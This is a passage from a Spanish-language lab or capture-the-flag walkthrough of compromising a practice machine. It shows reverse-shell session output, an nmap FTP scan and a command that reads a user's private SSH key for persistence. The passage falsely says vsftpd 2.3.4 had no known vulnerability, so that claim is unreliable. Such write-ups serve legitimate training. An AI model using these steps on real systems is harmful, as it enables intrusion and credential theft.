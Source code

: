 ```bash
[*] Started reverse TCP handler on 10.10.16.52:4444 
[*] Command shell session 1 opened (10.10.16.52:4444 -> 10.10.10.3:39721) at 2025-04-05 19:55:31 +0200
```

Esto nos permitió obtener una shell con privilegios limitados en la máquina víctima, en este caso como el usuario `user`.

## 3. Explotación del Servicio FTP

Realizamos una prueba inicial de FTP para comprobar si existían más vectores de ataque. En este caso, nos encontramos con que el servicio FTP estaba corriendo, pero no pudimos explotar ninguna vulnerabilidad inmediatamente.

### Comando de Nmap para escaneo FTP

```bash
nmap -p 21 --script ftp-anon 10.10.10.3
```

Salida esperada:

```bash
21/tcp open  ftp     vsftpd 2.3.4
```

La versión de FTP no estaba directamente asociada a ninguna vulnerabilidad conocida en ese momento, por lo que decidimos seguir con el enfoque en el servicio Samba.


---

## 4. Persistencia mediante Claves SSH

Después de obtener acceso a la máquina como el usuario `user`, encontramos las claves SSH en el directorio `/home/user/.ssh/`. Esto nos permitió configurar una persistencia en la máquina víctima usando la clave privada DSA (`id_dsa`) encontrada.

### 4.1. El uso de claves SSH

Para poder utilizar esta clave SSH y conectarnos de forma persistente a la máquina víctima, primero revisamos el contenido del archivo de claves privadas.

### Comando para mostrar la clave SSH privada:

```bash
cat /home/user/.ssh/id_dsa
```

La clave privada DSA fue guardada en un archivo llamado `id_dsa`, lo que nos permitió generar una clave de acceso persistente mediante SSH. Sin embargo, nos encontramos con un problema, ya que el protocolo SSH que usa la máquina víctima no permitía de forma predeterminada el uso de claves DSA (un algoritmo más antiguo y no tan recomendado en versiones recientes de OpenSSH).

### 4.2. Problema con la autenticación SSH
